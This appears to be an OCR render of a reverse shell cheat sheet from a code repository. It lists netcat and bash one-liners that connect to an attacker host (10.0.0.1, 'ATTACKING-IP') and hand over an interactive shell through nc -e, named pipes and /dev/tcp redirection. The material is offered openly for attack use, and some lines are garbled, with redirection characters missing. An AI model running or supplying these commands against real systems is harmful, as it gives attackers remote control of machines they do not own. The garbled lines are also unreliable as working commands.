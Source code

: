 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> - **nc -e /bin/sh 10.0.0.1 1234**
>
> - **/bin/sh | nc ATTACKING-IP 80**
>
> - **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**
>
> If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
>
> - **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> - **exec /bin/bash 0&0 2>&0**
>
> - **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**
>
> - **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
>   **cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> - **while read line 0<&5; do $line 2>&5 >&5; done**
>
> - **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**

